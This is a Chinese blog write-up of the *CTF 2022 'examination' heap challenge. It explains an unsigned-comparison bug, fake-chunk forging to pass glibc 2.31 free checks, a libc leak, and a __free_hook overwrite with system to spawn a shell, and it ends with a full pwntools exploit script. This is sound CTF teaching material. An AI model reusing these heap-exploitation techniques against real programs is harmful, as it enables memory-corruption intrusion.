







<!--yml
category: 未分类
date: 2022-04-26 14:30:46
-->

# *CTF-2022 examination 题解_L3H_CoLin的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_54218833/article/details/124367883](https://blog.csdn.net/qq_54218833/article/details/124367883)

源文件：[my_github](https://github.com/Hornos3/pwnfile)

这是一道堆题，模拟了学生和老师的有趣生活。

在这里，老师能干的事情有：添加学生、评分（分数随机，通常不超过10分）、为某一个学生写评语、叫家长（删除学生）。学生能干的事情有：做题（在本赛题中没有用）、查看评语、祈祷、设置模式（在本赛题中没有用）、修改要操作的学号。其中学生祈祷后，老师评分时能够发现，并吐槽一下，额外减10分。如果学生查看自己的分数发现大于89分，则可以获得奖励：获取到该学生信息的堆块地址，以及对任意地址的值加1（这种奖励每位学生只能获得一次）。

首先，我们需要发现一个整型漏洞。注意到祈祷之后评分会额外扣10分，如果本来没有10分，扣除之后就成了负数。看一下汇编，这里的跳转指令用的是jbe，也就是无符号整数的比较，这样就形成了一个整型漏洞。扣这10分之后，我们就可以进行任一地址加1的操作了。这是本题中最为关键的操作，没有之一。



在本题中，首先我们要获取libc的加载地址，好定位system函数。由于本题使用的glibc版本为2.31，因此任何小于0x400的chunk在释放时都会被存储到tcache中，而tcache chunk中并不包含任何glibc的偏移地址。这样，我们是无法知道glibc的偏移的。要想获得glibc地址，我们需要让一个chunk进入unsorted bin。这就需要使这个chunk的大小超过0x400。我们手中能用的手段只有任一地址加1，因此顺理成章地我们可以将这里的地址改大为0x500，这样就能够获得一个unsorted bin chunk了。

但是，如果仅仅是单纯地这样修改，我们仍然无法对这个chunk进行有效地控制。因为free意味着删除学生，程序中删除学生会将对应位置的悬挂指针清零，使我们看上去失去了UAF的可能性。但是别忘了，任一地址加1也是一个很好的攻击武器。如果我们通过任意地址加1能够修改一个学生评语的指针，那会怎么样呢？我们可以让两个学生的评语指向同一个位置，这样就实现了UAF。

经过实际验证，发现本程序中有很多需要注意的细节问题，需要把握好这些细节才能够拿到shell，否则程序容易崩溃退出。

**1\. 学生数量问题**



从添加学生的程序中看出，学生最多只能有7个，而删除学生能够让计数器减1。

**2\. 评分问题**


在评分的函数中，我们发现了一个程序bug。

假如我们现在已经有了7名学生，删除第1名学生，其指针会变成空指针，计数器的值应为6。但是评分遍历时还是会遍历到第1名学生，就会导致段错误。为了防止这种情况的发生，我们每一次删除一名学生都必须删除最后一名学生。

**3\. 地址写**



在任意地址写程序中，我们需要输入一个地址的10进制数。但是出题人在处理这个10进制数的时候没有处理好。本来read函数读取到换行结束，出题人应该是想把换行改成空字符，但是很不巧的是他改错了，将最后一位数字改成了空字符。这就需要我们每一次输入地址的时候都要在后面多输入一位无效数字，在比赛的时候这个小bug造成了一些不必要的时间浪费。~~（屑出题人）~~

**4\. calloc**

本题中除了teacher端输入6调用了一个malloc之外，其他的内存分配均使用calloc，而calloc不会分配tcache中的chunk。

注意到上面的限制条件之后，我们可以对步骤细化：

Step 1: 构造学生4的评语在学生5、6评语之后，绕过删除评语5的检查
Step 2: 奖励学生4，将学生5、6的评语（原大小：0x400）指向同一位置
Step 3: 奖励学生6，使学生6评语大小改大0x100（利用学生6的奖励机会）
Step 4: 删除学生6
Step 5: 读取学生5评语获取libc地址
Step 6: 将学生6添加回来
Step 7: 用学生5覆写学生6的chunk指针到__free_hook
Step 8: 为学生6写评语’/bin/sh’
Step 9: 在__free_hook写入system地址
Step 10: 用学生5覆写学生6的chunk指针返回到原来的位置
Step 11: 删除学生6，getshell

这里需要明确一点：在glibc 2.31的地盘，想要分配一个chunk到__free_hook是一件很难的事情。因为在分配前会对目标地址进行一系列的检查，具体参见我的how2heap学习第9篇文章。由于本题使用calloc作为内存分配函数，因此将tcache指针指向__free_hook也是无效的。因此，本题需要转换思路，直接修改写入评语的地址到__free_hook，即上述第7步。

在上面的思路中，第10步运用了calloc函数的特性，需要我们对本程序堆内存的分配情况有充分的了解，下面进行解释：

在bss段有一个长度为7的数组，存放学生信息的chunk指针，为描述方便，将这个数组中指针指向的chunk称为pointer chunk。每一个pointer chunk的大小均为0x30，其中只保存一个堆chunk指针，这个chunk指针指向的chunk保存的是该学生的分数、是否已经领取奖励的标志位、评语的chunk（以下称comment chunk）、评语chunk的长度等信息，大小为0x20，称其为header chunk（实际分配为0x18，最后8字节与后一个chunk的prev_size重合）。由于每一次添加学生时，两个chunk先后被分配，因此在一开始，不妨将7个学生均分配一次，这样堆空间中就会存在7个这样的结构：


在后面，是我们申请的评语的chunk，一开始我们会申请3个评语chunk，大小分别为0x100,0x400,0x200，分别给学生5,6,4。其中学生5分配0x100是为了后续步骤中将学生5的评语指针修改至与学生6重合。



由于在后期将学生6的chunk size改大0x100后需要free，因此在学生4的comment chunk中需要进行一定的构造以绕过检查。在学生4的comment chunk对应位置构造假chunk，这个假chunk头应该在学生6的comment chunk扩大0x100后其尾部的正后方，也即学生4 comment chunk头部向后偏移0x100处，构造如下内容：


这两个假chunk可用于绕过_int_free函数的检查：

```
// line 4316
if (__glibc_unlikely (!prev_inuse(nextchunk)))
  malloc_printerr ("double free or corruption (!prev)");

// line 4320
if (__builtin_expect (chunksize_nomask (nextchunk) <= 2 * SIZE_SZ, 0)
|| __builtin_expect (nextsize >= av->system_mem, 0))
  malloc_printerr ("free(): invalid next size (normal)"); 
```

在此之后，将学生5的comment chunk指针改到学生6的comment chunk可写头部，将学生6的comment chunk改大0x100后释放。



此时，我们使用stu5的指针可以获取到stu6 comment chunk的libc地址，因为此时这个chunk大小为0x500，在unsorted bin中。
之后将stu6申请回来，由于calloc不会使用tcache，因此在comment chunks上方被释放到tcache中原stu6的pointer chunk和header chunk均不会被分配出来，而是会对stu6的comment chunk进行切割，从而也就能够使我们能通过stu5的指针对stu6的信息进行随意改写。我们先对stu6写评语：‘/bin/sh’，这个地址我们可以得到，就在stu6的header chunk之上，我们首先将计算得到的__free_hook地址写到stu6的header chunk中存放comment chunk指针的地方，这样可以在对stu6写评语时直接修改__free_hook的值。然后再对stu5写评语将stu6的comment chunk指针改回到原先写有’/bin/sh’的地方，再执行free函数即可getshell。



payload:

```
from pwn import *
context(arch='amd64', log_level='debug')

io = process('./examination')
libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')

students = [0, 0, 0, 0, 0, 0, 0]
reviews = [None, None, None, None, None, None, None]
chunk_addr = [0, 0, 0, 0, 0, 0, 0]
scores = [0, 0, 0, 0, 0, 0, 0]
current_role = 0
current_sid = 0
student_num = 0

def add_student(q):
	global student_num
	assert(current_role == 0)
	io.sendlineafter(b'choice>> ', b'1')
	io.sendlineafter(b'enter the number of questions: ', str(q).encode())
	students[student_num] = 1
	chunk_addr[student_num] = 'unknown'
	student_num += 1

def give_score():
	assert(current_role == 0)
	io.sendlineafter(b'choice>> ', b'2')
	io.recvuntil(b'marking testing papers.....\n')
	sid = 0
	while True:
		s = io.recvuntil(b'\n', drop=True)
		if s == b'finish':
			break
		elif b'score' in s:
			sid = s[14] - 0x30
			scores[sid] = int(s[29:].decode(), 10)
		else:
			scores[sid] -= 10
			if scores[sid] < 0:
				scores[sid] += 256

def write_review(sid, size, comment, bytes=False, enter=True):
	assert(current_role == 0 and students[sid] == 1)
	io.sendlineafter(b'choice>> ', b'3')
	io.sendlineafter(b'which one? > ', str(sid).encode())
	if reviews[sid] is None:
		io.sendlineafter(b'please input the size of comment: ', str(size).encode())
	if enter:
		if not bytes:
			io.sendlineafter(b'enter your comment:', comment.encode())
		else:
			io.sendlineafter(b'enter your comment:', comment)
	else:
		if not bytes:
			io.sendafter(b'enter your comment:', comment.encode())
		else:
			io.sendafter(b'enter your comment:', comment)
	reviews[sid] = comment

def call_parent(sid):
	global student_num
	assert(current_role == 0 and students[sid] == 1)
	io.sendlineafter(b'choice>> ', b'4')
	io.sendlineafter(b'which student id to choose?', str(sid).encode())
	students[sid] = 2
	reviews[sid] = None
	student_num -= 1

def change_role(role):
	global current_role
	io.sendlineafter(b'choice>> ', b'5')
	io.sendlineafter(b'role: <0.teacher/1.student>: ', str(role).encode())
	current_role = role

def check_review(address, offset=True):
	assert(current_role == 1)
	io.sendlineafter(b'choice>> ', b'2')
	if io.recv(4) == b'Good':
		c = chunk_addr[current_sid] = int(io.recvuntil(b'add', drop=True)[-13:].decode(), 16)
		chunk_addr[current_sid] -= 0x10		
		io.sendlineafter(b'wherever you want! addr: ', str((c + address) * 10).encode())

def pray():
	assert(current_role == 1)
	io.sendlineafter(b'choice>> ', b'3')

def change_sid(sid):
	global current_sid
	assert(current_role == 1 and students[sid] != 0)
	io.sendlineafter(b'choice>> ', b'6')
	io.sendlineafter(b'input your id: ', str(sid).encode())
	current_sid = sid

def print_status():
	print('students: ', end='')
	print(students)
	print('reviews: ', end='')
	print(reviews)
	print('chunk_addr: ', end='')
	print(chunk_addr)
	print('scores: ', end='')
	print(scores)
	print('current_role: ' + str(current_role))

io.sendlineafter(b'role: <0.teacher/1.student>: ', b'0')
for i in range(7):
	add_student(1)

change_role(0)
write_review(5, 0xF0, 'deadbeef')
write_review(6, 1024-16, 'deadbeef')

write_review(4, 0x200, b'a' * 0xF0 + p64(0x500) + p64(0x21) + p64(0) * 3 + p64(0x21), True)

change_role(1)
change_sid(4)
pray()

change_role(0)
give_score()	

change_role(1)
change_sid(4)
check_review(0x39 + 0x50)
chunk_addr[4] += 0x200

change_role(1)
change_sid(6)
pray()

change_role(0)
give_score()	

change_role(1)
change_sid(6)
check_review(0x48 + 0x100 + 1)

change_role(0)
call_parent(6)

change_role(1)
change_sid(5)

io.sendlineafter(b'choice>> ', b'2')
io.recvuntil(b'here is the review:\n')
main_arena = u64(io.recv(6) + b'\x00\x00') - 96
libc_base = main_arena - (libc.symbols['__malloc_hook'] + 0x10)
sys_addr = libc_base + libc.symbols['system']		
malloc_hook = libc_base + libc.symbols['__malloc_hook']
free_hook = libc_base + libc.symbols['__free_hook']

change_role(0)
add_student(1)

write_review(6, 10, '/bin/sh')

stu6_writeaddr = chunk_addr[4] + 0x50	

payload = p64(chunk_addr[4] + 0x30)	
payload += p64(0) * 4
payload += p64(0x21)	
payload += p64(1)
payload += p64(free_hook)	
write_review(5, 0, payload, bytes=True)

write_review(6, 0, p64(sys_addr), bytes=True)

payload = p64(chunk_addr[4] + 0x30)	
payload += p64(0) * 4
payload += p64(0x21)	
payload += p64(1)
payload += p64(stu6_writeaddr)
write_review(5, 0, payload, bytes=True)

change_role(0)
call_parent(6)
io.interactive() 
```